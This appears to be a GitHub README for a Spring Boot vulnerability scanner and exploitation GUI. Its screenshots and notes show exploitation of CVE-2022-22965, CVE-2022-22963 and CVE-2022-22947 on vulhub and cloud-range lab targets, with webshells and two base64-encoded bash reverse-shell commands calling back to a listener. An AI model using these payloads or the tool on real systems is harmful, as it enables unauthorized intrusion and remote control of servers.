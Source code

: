 # SpringBoot-Scan-GUI by 13exp

Windows:<br> 
python SpringBoot-Scan-GUI.py<br>
直接执行release文件夹内exe程序<br>
<br>
Linux:<br>
python3 SpringBoot-Scan-GUI-Linux.py<br>
wine SpringBoot-Scan-GUI.exe<br>
<br>
Win使用效果图<br>
CVE-2022-22965<br>
vulhub<br>
![image](https://user-images.githubusercontent.com/73600604/218236128-21bf37e5-e8c2-45de-9f9e-50fbe8ad1574.png)
![image](https://user-images.githubusercontent.com/73600604/218236233-68986684-4698-46d0-a36e-d95d37a2620b.png)
![image](https://user-images.githubusercontent.com/73600604/218236243-0d6b2eb4-6b2d-4c88-91ea-be4a5760675d.png)
<br>内置shell
![image](https://user-images.githubusercontent.com/73600604/218236608-102b9342-1f92-4268-88de-9f35c5de22ce.png)
<br>aabysszg-shell
![image](https://user-images.githubusercontent.com/73600604/218236258-348c30f4-7a5e-43e9-8f12-0f4eb1f27e99.png)
<br>13exp-shell
![image](https://user-images.githubusercontent.com/73600604/218236580-097727c0-cd79-47bc-af8a-3b509324ec3e.png)
<br>春秋云境
![image](https://user-images.githubusercontent.com/73600604/218236469-833740d2-b754-46d8-848d-89236f5ec72b.png)
<br>内置shell
![image](https://user-images.githubusercontent.com/73600604/218236715-9815addd-2502-4e6c-a11c-5ccd054a57ac.png)
<br>13exp-shell
![image](https://user-images.githubusercontent.com/73600604/218236734-655bcfe4-0eac-433d-aa66-07ad51af9fbb.png)
<br>aabysszg-shell
![image](https://user-images.githubusercontent.com/73600604/218236497-11401635-b171-4536-9faa-f431324612a9.png)
![image](https://user-images.githubusercontent.com/73600604/218236516-71dae6a1-3f59-459c-82c8-b49c3d191f6c.png)
<br>CVE-2022-22963
<br>vulhub<br>
<br>准备反弹shell
<br>bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)
<br>编码内容→bash -i >& /dev/tcp/192.168.0.105/8888 0>&1
<br>kali监听
![image](https://user-images.githubusercontent.com/73600604/218240588-a377065e-c4fc-403c-950d-0e688b7e446c.png)
<br>漏洞利用
![image](https://user-images.githubusercontent.com/73600604/218240553-009588c6-be8f-4bbd-9fe8-d3e8cc001795.png)
![image](https://user-images.githubusercontent.com/73600604/218240609-246afc87-e671-4565-bf68-f3dda7360961.png)
<br>春秋云境
![image](https://user-images.githubusercontent.com/73600604/218236995-3ac37c9f-f7e6-478a-a72d-f7951c547047.png)
<br>CVE-2022-22947
<br>vulhub
<br>同样准备反弹shell
<br>bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODkgMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)
<br>编码内容→bash -i >& /dev/tcp/192.168.0.105/8889 0>&1
<br>kali监听
![image](https://user-images.githubusercontent.com/73600604/218240722-f36a7ac5-b2c3-4043-9b9e-54be43052799.png)
<br>漏洞利用
![image](https://user-images.githubusercontent.com/73600604/218240756-52bb0691-bcbe-4057-b502-716d86aa2a1d.png)
![image](https://user-images.githubusercontent.com/73600604/218241387-1c6b9198-3e76-434b-8a8d-96533613cd26.png)
<br>春秋云境
![image](https://user-images.githubusercontent.com/73600604/218237116-b3897e7c-2c88-45c6-97ad-276c3e7be052.png)
